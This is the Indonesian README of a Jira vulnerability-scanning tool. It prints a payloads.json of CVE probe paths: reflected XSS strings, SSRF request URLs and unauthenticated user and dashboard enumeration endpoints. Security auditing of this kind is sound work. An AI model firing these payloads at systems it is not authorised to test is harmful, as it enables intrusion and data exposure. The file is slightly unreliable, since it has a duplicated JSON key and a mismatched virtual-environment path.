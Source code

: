 # Jira Vulnerability Scanner

**Jira Vulnerability Scanner** adalah alat otomatis yang dirancang untuk mengidentifikasi kerentanannya pada instance Jira dengan memeriksa berbagai CVE (Common Vulnerabilities and Exposures) yang diketahui. Alat ini memungkinkan administrator dan profesional keamanan untuk secara efisien menilai keamanan instance Jira mereka.

## Fitur Utama

- **Pemeriksaan Otomatis:** Memeriksa berbagai CVE yang diketahui pada instance Jira secara otomatis.
- **Laporan Terperinci:** Memberikan laporan yang jelas mengenai status kerentanannya, termasuk informasi tentang endpoint yang rentan dan tidak rentan.
- **Kemudahan Penggunaan:** Dirancang dengan antarmuka baris perintah yang sederhana untuk kemudahan penggunaan.

## Instalasi

1. **Cloning Repositori:**
```bash
git clone https://github.com/pwnosec/jira-vuln-scanner.git
cd jira-vuln-scanner
```
2. Instalasi Dependensi:
Pastikan Anda memiliki Python 3 dan pip terinstal. Kemudian, instal dependensi yang diperlukan:
```
pip3 install -r requirements.txt
```
3. Membuat Virtual Environment
Sebelum memulai, pastikan Anda telah menginstal Python 3 di sistem Anda. Kemudian, buat virtual environment untuk mengisolasi dependensi proyek:
```bash
python3 -m venv jiravuln
```
4. Aktifkan Virtual Environment Pada sistem Linux/MacOS:
```
source jiravuln/bin/activate
```
Pada sistem Windows:
```
.\venv\Scripts\activate
```
5. Penggunaan
Untuk memulai pemindaian, jalankan perintah berikut:
```
python3 jiracheck.py --url https://<url-jira-anda> --payloads payloads.json
```
Gantilah `<url-jira-anda>` dengan URL instance Jira Anda. Alat ini akan memeriksa berbagai endpoint yang rentan dan memberikan laporan mengenai status kerentanannya.

## Payloads
Payloads yang digunakan untuk memeriksa kerentanannya disimpan dalam file payloads.json. Berikut adalah beberapa payload yang digunakan:
```json
{
  "CVE-2017-9506": "/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing.com",
  "CVE-2018-5230": "/pages/<IFRAME%20SRC%3D%22javascript%3Aalert('XSS')%22>.vm",
  "CVE-2018-20824": "/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)",
  "CVE-2019-3396": "/rest/tinymce/1/macro/preview",
  "CVE-2019-3402": "/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=<script>alert(1)</script>&Search=Search",
  "CVE-2019-3403": "/rest/api/2/user/picker?query=<user_name_here>",
  "CVE-2019-8442": "/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml",
  "CVE-2019-8449": "/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true",
  "CVE-2019-8451": "/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com",
  "CVE-2019-11581": "/secure/ContactAdministrators!default.jspa",
  "CVE-2020-14178": "/browse.<project_key>",
  "CVE-2020-14179": "/secure/QueryComponent!Default.jspa",
  "CVE-2020-14181": "/secure/ViewUserHover.jspa?username=<uname>",
  "CVE-2020-36289": "/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin",
  "CVE-2020-36289 (alt)": "/servicedesk/customer/user/signup",
  "CVE-2020-36289 (alt)": "/jira/projects",
  "jira-unauth-popular-filters": "/secure/ManageFilters.jspa?filterView=popular",
  "jira-unauthenticated-dashboards": "/rest/api/2/dashboard?maxResults=100",
  "Resolution found": "/rest/api/2/resolution",
  "Admin Project Dashboard Accessible": "/rest/menu/latest/admin",
  "Project Group Found": "/rest/api/2/projectCategory?maxResults=100",
  "Medium - Service Desk Signup Enable": "/servicedesk/customer/user/signup",
  "LOW - Query Component Field": "/secure/QueryComponents!Jql.jspa?jql="
}
```
Payloads ini digunakan untuk memeriksa kerentanannya pada berbagai endpoint di instance Jira Anda.

### Referensi
Untuk informasi lebih lanjut mengenai CVE yang digunakan dalam pemindaian ini, Anda dapat merujuk ke sumber-sumber berikut:

- CVE-2017-9506
- CVE-2018-5230
- CVE-2018-20824
- CVE-2019-3396
- CVE-2019-3402
- CVE-2019-3403
- CVE-2019-8442
- CVE-2019-8449

